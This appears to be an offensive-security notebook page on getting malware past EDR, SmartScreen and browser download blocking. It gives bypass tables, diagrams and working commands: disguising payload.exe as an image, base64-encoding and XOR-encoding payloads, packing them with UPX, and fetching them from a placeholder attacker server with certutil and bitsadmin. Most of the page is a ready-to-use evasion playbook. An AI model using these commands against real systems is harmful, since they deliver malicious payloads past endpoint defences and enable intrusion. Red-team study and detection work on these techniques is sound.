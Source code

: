 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/1-download-prevention-and-bypass-techniques/","noteIcon":"","created":"2025-04-15T14:11:19.620-04:00"}
---
```


















## **1. How EDR Prevents Downloads & Bypass Methods**

| **Prevention Mechanism**            | **Detection Method**                              | **Bypass Technique**                                |
| ----------------------------------- | ------------------------------------------------- | --------------------------------------------------- |
| **Browser Blocking**                | Flags suspicious downloads in Chrome, Edge        | Change file extension, Use HTTPS                    |
| **Windows Defender SmartScreen**    | Blocks unsigned or unknown executables            | Digitally sign the file, Modify file metadata       |
| **EDR Network Filtering**           | Detects downloads from untrusted URLs             | Use VPN, proxy, or trusted cloud storage            |
| **File Hash or Signature Scanning** | Compares downloaded files to known malware hashes | Modify binary structure, Use packing or obfuscation |
| **Process Behavior Analysis**       | Detects suspicious file execution behavior        | Use LOLBins like certutil or bitsadmin              |


---

## **2. Mermaid Diagram: Download Prevention & Evasion**
```mermaid
graph TD
    A[User Attempts to Download File] -->|Browser Security SmartScreen SafeBrowsing| B[Blocked by Browser]
    A -->|EDR Network Filtering| C[Blocked by Firewall or EDR]
    A -->|Windows Defender Scanning| D[Blocked by Signature Detection]
    A -->|Process Behavior Analysis| E[Blocked by AMSI]

    B -->|Use HTTPS Rename File| F[Bypass Browser Security]
    C -->|Use VPN or Proxy| G[Bypass Firewall or EDR]
    D -->|Modify Binary Signature| H[Bypass Signature Detection]
    E -->|Encode Payload Use LOLBins| I[Bypass AMSI]
```



### **3. Table: Bypass Methods for Each Prevention Mechanism**

| **Prevention Mechanism**         | **Bypass Method**                              | **Example Command or Technique**                  |
|----------------------------------|-----------------------------------------------|--------------------------------------------------|
| **Browser Blocking**             | Use HTTPS and rename file                    | Rename `payload.exe` to `image.jpg`              |
| **Windows Defender SmartScreen** | Digitally sign the file                      | Sign the file using `signtool.exe`               |
| **EDR Network Filtering**        | Use a trusted cloud storage                  | Upload to Google Drive or Dropbox                |
| **File Hash or Signature Scanning** | Modify binary structure                      | Pack with UPX, encrypt sections, XOR encoding    |
| **Process Behavior Analysis**    | Use LOLBins for downloading payloads         | `certutil -urlcache -split -f http://server/payload.exe` |

### **4. Mermaid Diagram: Bypass Workflow**
```mermaid
graph TD
    A[Download Attempt] -->|Blocked by Browser| B[Use HTTPS Rename File]
    A -->|Blocked by EDR Firewall| C[Use VPN or Proxy]
    A -->|Blocked by Signature Check| D[Modify Binary Signature]
    A -->|Blocked by Process Behavior Analysis| E[Use LOLBins]
    
    B -->|Rename to .jpg .log .txt| F[Bypass Browser Security]
    C -->|Use Cloud Storage| G[Bypass Firewall]
    D -->|Pack Encrypt Obfuscate| H[Bypass Signature Detection]
    E -->|Use certutil bitsadmin| I[Bypass AMSI and Process Monitoring]
```

---

### **5. Practical Commands for Bypassing Download Prevention**
Attackers use **Windows-native binaries (LOLBins)** and **encoding techniques** to evade detection.

#### **1. Rename File Extensions**
Some browsers block `.exe` files but allow `.jpg` or `.txt`:
```sh
mv payload.exe image.jpg
```

#### **2. Base64 Encode the Payload**
Encode before transfer:
```sh
base64 payload.exe > payload.b64
```
Decode on the target:
```sh
cat payload.b64 | base64 -d > extracted.exe
```

#### **3. Use CertUtil for Download**
https://lolbas-project.github.io/#
CertUtil is a built-in Windows tool that can download and decode files:
```sh
certutil -urlcache -split -f http://yourserver/payload.exe payload.exe
```

#### **4. Use Bitsadmin for Stealthy Download**
Bitsadmin uses Microsoft’s Background Intelligent Transfer Service (BITS), often trusted by EDR:
```powershell
bitsadmin /transfer myJob http://yourserver/payload.exe C:\Users\Public\payload.exe
```

#### **5. Obfuscate the Payload**

Attackers often modify binary structures to avoid hash-based detections:
- **Packing with UPX**:
[[1e.  Advanced UPX Methods for Modifying Binary Structure\|Attack Computer/Attack Windows/3. EDR Evasion/1e.  Advanced UPX Methods for Modifying Binary Structure]]
```sh
  upx-ucl -9 payload.exe
```
- **XOR Encoding**:

- [[1a. AES, RC4, XOR encryption\|Attack Computer/Attack Windows/3. EDR Evasion/1a. AES, RC4, XOR encryption]]
  ```python
  key = 0x55
  encoded = bytes([b ^ key for b in open('payload.exe', 'rb').read()])
  open('encoded.bin', 'wb').write(encoded)
  ```

---

